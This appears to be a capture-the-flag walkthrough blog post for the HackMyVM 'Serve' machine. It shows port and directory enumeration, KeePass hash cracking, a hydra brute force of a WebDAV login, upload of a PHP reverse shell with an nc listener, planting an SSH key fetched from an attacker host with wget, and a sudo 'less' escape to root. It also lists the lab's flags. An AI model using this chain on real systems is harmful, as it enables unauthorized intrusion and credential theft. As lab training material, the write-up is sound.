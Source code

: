 ```yaml
---
layout: post
author: canarinho
title:  "Serve"
date:   2021-12-31 12:32:26 AM -03
category: HackMyVM
---
```


[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Serve)

## Nmap Results

{% highlight bash %}
Starting Nmap 7.92 ( [https://nmap.org](https://nmap.org/) ) at 2021-12-15 15:20 -03
Nmap scan report for serve (192.168.15.91)
Host is up (0.0021s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 9a:0c:75:5a:bb:bb:06:a2:9a:7d:be:91:ca:45:45:e4 (RSA)
|   256 07:7d:e7:0f:0b:5e:5a:90:e9:33:72:68:49:3b:f5:8c (ECDSA)
|_  256 6c:15:32:a7:42:e7:9f:da:63:66:7d:3a:be:fb:bf:14 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:26:02:2F (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}

## FFUF Results for [http://192.168.15.90/](http://192.168.15.90/)

{% highlight bash %}
javascript              [Status: 301, Size: 319, Words: 20, Lines: 10]
notes.txt               [Status: 200, Size: 173, Words: 24, Lines: 12]
secrets                 [Status: 301, Size: 316, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10]
webdav                  [Status: 401, Size: 460, Words: 42, Lines: 15]
{% endhighlight %}

### -> notes.txt

Hi teo,
the database with your credentials to access the resource are in the secret directory
(Don't forget to change X to your employee number)

regards
IT department


## FFUF Results for [http://192.168.15.90/secrets](http://192.168.15.90/secrets)


db.kdbx                 [Status: 200, Size: 2078, Words: 12, Lines: 15]
index.html              [Status: 200, Size: 7, Words: 1, Lines: 8]


## Cracking the password of "db.kdbx"

{% highlight bash %}
keepass2john db.kdbx > hashKeepass.txt
john --format=KeePass --wordlist=/usr/share/wordlists/rockyou.txt  hashKeepass.txt
{% endhighlight %}


dreams           (db)	<--- password


## Acessing db.kdbx


admin:w3bd4vXXX


Now we need to find the right employee number to fill the XXX.

{% highlight bash %}
crunch 9 9 -t w3bd4v%%% -o pass.dic
hydra -l admin -P pass.dic 192.168.15.91 http-get /webdav -f -I
{% endhighlight %}

Result


[80][http-get] host: 192.168.15.91   login: admin   password: w3bd4v513


## Submitting a reverse shell

{% highlight bash %}
curl -T reverse.php [http://192.168.15.91/webdav/](http://192.168.15.91/webdav/) --digest -u admin:w3bd4v513
nc -nvlp 4444
curl [http://192.168.15.91/webdav/reverse.php](http://192.168.15.91/webdav/reverse.php) --digest -u admin:w3bd4v513
{% endhighlight  %}

Checking the "sudo -l", it's possible to execute wget as teo.
So, upload a rsa key to teo

{% highlight bash %}
sudo -u teo wget [http://192.168.15.85:8000/id_rsa.pub](http://192.168.15.85:8000/id_rsa.pub) -O /home/teo/.ssh/authorized_keys
{% endhighlight  %}

Then, just login via ssh using teo user.


user.txt	--> 	ZHgKGiUPm7T7yyLDD9HnqXF3eIkLs6

## PrivEsc

{% highlight bash %}
sudo -l
{% endhighlight  %}


User teo may run the following commands on Serve:
(root) NOPASSWD: /usr/local/bin/bro


Executing "sudo /usr/local/bin/bro curl", note that the binary utilize "less" utility, so just run "!bash".
And there it is, you got root shell


root.txt	-->	vWiU6Ums1pmZAYX0QyXvkclyPZ4lyi

